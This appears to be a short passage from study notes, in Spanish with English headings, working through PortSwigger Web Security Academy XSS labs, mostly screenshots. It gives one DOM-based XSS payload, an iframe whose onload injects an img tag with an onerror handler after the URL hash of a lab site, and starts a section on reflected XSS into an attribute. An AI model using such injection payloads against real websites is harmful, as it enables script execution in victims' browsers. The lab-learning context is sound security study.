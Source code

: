 ![](/img2/Pasted%20image%2020250722162107.png)

> De esta forma la víctima cargará la web y posteriormente introducirá la inyección después del hash.

- Injection

```html
<iframe src=https://0a3b009o0458243d802a764800a800ca.web-security-academy.net/# onload="this.src+='<img src=0 onerror=print()>'">
```

## XSS reflejado en atributo con corchetes codificados || Reflected XSS into attribute with angle brackets HTML-encoded

![](/img2/Pasted%20image%2020250722173410.png)

![](/img2/Pasted%20image%2020250722173502.png)
